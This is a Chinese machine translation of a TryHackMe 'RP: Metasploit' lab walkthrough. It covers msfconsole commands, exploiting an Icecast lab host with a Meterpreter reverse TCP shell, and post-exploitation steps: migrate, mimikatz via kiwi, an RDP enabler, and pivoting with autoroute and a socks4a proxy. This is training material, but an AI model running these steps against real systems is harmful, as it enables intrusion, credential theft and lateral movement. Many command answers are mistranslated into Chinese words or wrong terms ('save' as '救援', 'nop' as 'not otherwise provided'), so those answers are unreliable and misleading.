

# RP: Metasploit 演练:TryHackMe

> 原文：<https://infosecwriteups.com/rp-metasploit-walkthrough-tryhackme-63f01ce1f535?source=collection_archive---------0----------------------->

正如标题所言。这是“RP: Metasploit”的演练。房间链接是[https://tryhackme.com/room/rpmetasploit](https://tryhackme.com/room/rpmetasploit)。

我建议你仔细遵循指南和说明。他们解释得很好。

# **【任务一】** *简介*

Metasploit 是一个开源的笔测试框架，是一个被世界各地的安全工程师使用的强大工具。由 Rapid 7 维护的 Metasploit 不仅收集了经过全面测试的漏洞，还收集了辅助和后期开发工具。在这个房间里，我们将探索使用这个庞大的框架和它包括的几个模块的基础。

***#1*** Kali 和 Linux 的大多数其他安全发行版默认包含 Metasploit。如果您使用的是不同的 Linux 发行版，请验证您已经安装了它，或者从 Rapid 7 Github 存储库中安装它。

# **【任务 2】*初始化…***

首先，我们需要初始化数据库！现在让我们使用命令来完成这项工作:

> msfdb 初始化

**#2** 在启动 Metasploit 之前，我们可以查看一些可以触发来启动控制台的高级选项。现在使用以下命令检查这些内容:

> msfconsole -h

**#3** 我们可以在命令行上启动 Metasploit 控制台，而不显示横幅或任何启动信息。我们在 msfconsole 中添加什么开关来启动它而不显示这些信息？这将包括'-'

> 问

一旦数据库被初始化，继续通过命令启动 Metasploit:

> msfconsole

#5 在 Metasploit 启动之后，让我们继续检查我们是否已经连接到数据库。现在使用以下命令执行此操作:

> 数据库状态

#6 酷！我们已经连接到数据库，Metasploit 5 使用哪种类型的数据库？

> 一种数据库系统

# **【任务 3】***尽情摇滚【命令】*

使用帮助菜单，现在让我们学习 Metasploit 中的基本命令和模块类别。以下问题的几乎所有答案都可以在 Metasploit 帮助菜单中找到。

#1 让我们开始探索帮助菜单。在 Metasploit 提示符下(使用 msfconsole 启动 Metasploit 后，我们将处于该位置)，键入命令:

> 帮助

#2 帮助菜单有一个很短的单字符别名，它是什么？

> ?

#3 在 Metasploit 中找到我们可以随意使用的各种模块是我们在框架中最常用的命令之一。我们用于搜索的基本命令是什么？

> 搜索

#4 一旦我们找到了想要利用的模块，我们使用什么命令来选择它作为活动模块？

> 使用

#5 如果我们想查看特定模块的信息，或者只是我们选择的活动模块的信息，该怎么办？

> 信息

#6 Metasploit 有一个内置的类似 netcat 的功能，我们可以快速连接到一个主机，只是为了验证我们可以与它“交谈”。这是什么命令？

> 连接

#7 完全是一个纯粹用于娱乐的命令，当我们启动 msfconsole(不带-q 标志)时，哪个命令显示我们看到的 motd/ascii 艺术？

> 旗帜

#8 我们稍后将再次讨论这两个命令，但是，它们是 Metasploit 中最常用的两个命令。首先，我们用什么命令来改变一个变量的值？

> 设置

#9 Metasploit 支持使用全局变量，当你特别关注单个盒子时，这是非常有用的。什么命令可以全局改变变量的值？

> setg

#10 现在我们已经了解了如何改变变量的值，我们如何看待它们？从技术上讲，这个问题有几个答案，但是，我在寻找一个特定的三个字母的命令，用于查看单个变量的值。

> 得到

#11 把变量值改成 null/无值怎么样？

> 复原

#12 在执行渗透测试时，通常会记录您的屏幕，以便进一步检查或提供所采取的任何行动的证据。这通常与将控制台输出收集到一个文件相结合，因为它对于将不同的信息输出到屏幕上非常有用。我们可以使用什么命令将控制台输出设置为保存到文件？

> 线轴

#13 让 Metasploit 控制台保持运行并不总是很方便，在启动 Metasploit 时加载我们之前设置的所有值会很有帮助。我们可以使用什么命令将 Metasploit 中的设置/活动数据存储存储到设置文件中？这将保存在您的 msf4(或 msf5)目录中，并且可以通过简单地删除创建的设置文件来轻松撤消。

> 救援

# **【任务 4】适合各种场合的模块！**

Metasploit 由六个核心模块组成，它们构成了您将在其中使用的大部分工具。让我们快速浏览一下各个模块、它们的用途以及一些与模块相关的命令。

*注意，此图包括接口和*大部分*模块。此图不包括“Post”模块。

#1 最常用的模块，哪个模块包含我们将使用的所有漏洞利用代码？

> 剥削

#2 与漏洞利用一起使用，哪个模块包含我们发送的在漏洞利用后执行的各种外壳代码？

> 有效载荷

#3 扫描和验证机器中最常用的模块是哪个？这当然不同于实际的剥削。

> 辅助的

#4 剥削后最常见的活动之一是抢劫和旋转。哪个模块提供这些功能？

> 邮政

#5 通常在有效负载混淆中使用，哪个模块允许我们修改漏洞的“外观”,以便我们可以避免签名检测？

> 编码器

#6 最后但同样重要的是，缓冲区溢出和 ROP 攻击使用哪个模块？

> not otherwise provided 除非另有规定

#7 并非每个模块都是默认加载的，我们可以使用什么命令来加载不同的模块？

> 负荷

# 移动那个壳！

是时候部署机器了。我在考虑机器 IP 为 10.10.x.x。

注意:Metasploit 支持辅助模块中不同类型的端口扫描。Metasploit 还可以从 nmap 和 Nessus 导入其他扫描，这里仅举几例。

#1 Metasploit 提供了一种内置的方式来运行 nmap 并将其结果直接输入到我们的数据库中。现在让我们使用以下命令来运行它:

> db_nmap -sV BOX-IP

# 2 What 识别端口 135 上运行的是什么服务？

> msrpc

#3 让我们继续，看看我们在数据库中收集了哪些信息。现在尝试在 msfconsole 中键入命令“hosts”。

> 主机

#4 数据库中的其他内容如何，现在尝试命令“服务”。

> 服务

#5 最后一件事，现在试试命令“vulns”。目前这不会显示太多，但是值得注意的是 Metasploit 将跟踪发现的漏洞。快速有效地利用数据库的许多方法之一。

> vulns

#6 现在我们已经扫描了我们的受害者系统，让我们尝试使用 Metasploit 有效负载连接到它。首先，我们必须搜索目标有效载荷。在 Metasploit 5(撰写本文时的最新版本)中，您可以简单地键入“use ”,后跟一个仅在目标漏洞中找到的唯一字符串。例如，现在用下面的命令“使用 icecast”来尝试一下。现在出现在 msfconsole 提示符上的漏洞利用的完整路径是什么？*这将包括开头的漏洞利用部分。

> exploit/windows/http/ice cast _ header

#7 虽然带有唯一字符串 use 命令非常有用，但这并不是我们想要的利用方式。现在让我们运行命令‘搜索多重/处理器’。控制台最左侧显示在“名称”旁边的列的名称是什么？继续运行命令“use NUMBER _ NEXT _ TO exploit/multi/handler ”,其中数字将显示在最左边的列中(通常为 4 或 5)。这样，我们可以使用我们的搜索结果，而不需要输入我们想要使用的模块的全名/路径。

> #

#8 现在键入命令“使用 NUMBER_FROM_PREVIOUS_QUESTION”。这是使用搜索结果返回的模块的捷径。

> 使用 6

#9 接下来，让我们使用此命令“set PAYLOAD windows/meter preter/reverse _ TCP”来设置有效负载。通过这种方式，我们可以修改我们希望利用的有效载荷。此外，让我们运行这个命令' set LHOST YOUR_IP_ON_TRYHACKME '。你可能需要使用命令' **ip addr** '来检查你的 IP，它很可能是你的 **tun0 接口**。

> set PAYLOAD windows/meter preter/reverse _ TCP
> IP addr
> set LHOST YOUR _ IP _ ON _ TRYHACKME

#10 让我们继续，回到我们以前的利用，运行命令`使用冰铸'再次选择它。

> 使用 icecast

#11 在我们运行我们的漏洞之前的最后一步。运行命令“set RHOST BOX_IP”来告诉 Metasploit 要攻击哪个目标。

> 设置主机盒 _IP

#12 一旦您正确设置了这些变量，现在就可以通过命令“exploit”或命令“run -j”来运行漏洞，将此作为一项任务来运行。

> 剥削

#13 启动后，我们可以通过运行“jobs”命令来检查系统上运行的所有作业

> 工作

#14 在下一个任务中建立连接后，我们可以使用“sessions”命令列出所有会话。同样，我们可以使用命令“sessions -i SESSION_NUMBER”与目标会话进行交互

> 会话-i 会话号

# [任务 6]我们进来了，现在做什么？

现在我们已经有了受害者机器的外壳，让我们看看我们可以利用的几个利用后模块操作！下一节中的大多数问题都可以通过使用“帮助”命令访问的 Meterpreter 帮助菜单来回答。当我们加载更多的模块时，这个菜单会动态扩展。

首先，我们最初的外壳/进程通常不太稳定。让我们继续尝试转向不同的流程。首先，让我们使用命令' ps '列出进程。假脱机服务的名称是什么？

> spoolsv.exe

#2 让我们继续进入假脱机流程，或者至少尝试这样做！我们使用什么命令将自己转移到流程中？因为我们没有足够的权限，所以这在当前是行不通的，但是我们仍然可以尝试！

> 移动

#3 迁移没有成功，让我们找到更多关于系统的信息，这样我们就可以尝试提升。我们可以运行什么命令来查找关于运行我们所在进程的当前用户的更多信息？

> getuid

#4 如何找到关于系统本身的更多信息？

> sysinfo

#5 这可能需要一点谷歌搜索，我们运行什么来加载 mimikatz(更具体地说是 mimikatz 的新版本)，以便我们可以使用它？

> 装猕猴桃

#6 让我们继续，找出我们当前用户的权限，我们运行什么命令？

> getprivs

#7 我们运行什么命令将文件传输到受害者计算机？

> 上传

#8 如果我们想运行一个 Metasploit 模块呢？

> 奔跑

#9 一个简单但非常必要的问题，我们应该运行什么命令来计算受害者的网络信息和接口？

> 用于查看本机的 IP 信息

#10 让我们继续从 Metasploit 运行几个 post 模块。首先，让我们运行命令“运行 post/windows/gather/checkvm”。这将决定我们是否在一个虚拟机中，这是一个非常有用的知识，有助于进一步分析。

> 运行 post/windows/gather/checkvm

#11 接下来，我们试试:`跑 post/multi/recon/local _ exploit _ suggest er `。这将检查各种利用，我们可以在我们的会话中运行，以提升我们的特权。请随意使用这些建议进行实验，但是，我们将在“Ice”室中对此进行更详细的讨论。

> 运行 post/multi/recon/local _ exploit _ suggester

#12 最后，让我们试着强迫 RDP 上场。因为我们不是管理员，所以这不起作用，但是，这是一个需要了解的有趣命令:

> 运行 post/windows/manage/enable_rdp

#13 一个额外的小问题，我们可以在我们的 meterpreter 会话中运行什么命令来生成一个正常的系统 shell？

> 壳

# **[任务 7]让思科骄傲**

最后，让我们看看 Metasploit 中可用的自动路由选项。虽然我们的受害者机器可能没有多个网络接口(NIC ),但我们将通过我们的受害者进行旋转运动，就好像它可以访问额外的网络一样。

#1 让我们继续运行命令“run autoroute -h ”,这将弹出 autoroute 的帮助菜单。我们应该运行什么命令来向以下子网添加路由:172.18.1.0/24？在您的答案中使用-n 标志。

> 运行 autoroute-s 172 . 18 . 1 . 0-n 255 . 255 . 255 . 0

#2 另外，我们可以在这个会话之外启动一个 socks4a 代理服务器。设置当前 meterpreter 会话的背景，并运行命令“search server/socks4a”。socks4a 辅助模块的完整路径是什么？

> 辅助/服务器/插座 4a

#3 一旦我们启动了 socks 服务器，我们就可以修改/etc/proxychains.conf 文件来包含我们的新服务器。我们在命令前面加上什么命令(在 Metasploit 之外),以便通过我们的 socks4a 服务器用 proxychains 运行它们？

> 代理链

联系我:[推特](https://twitter.com/abhiunix)，

*网页:*[*https://abhi UNIX . in*](https://abhiunix.in)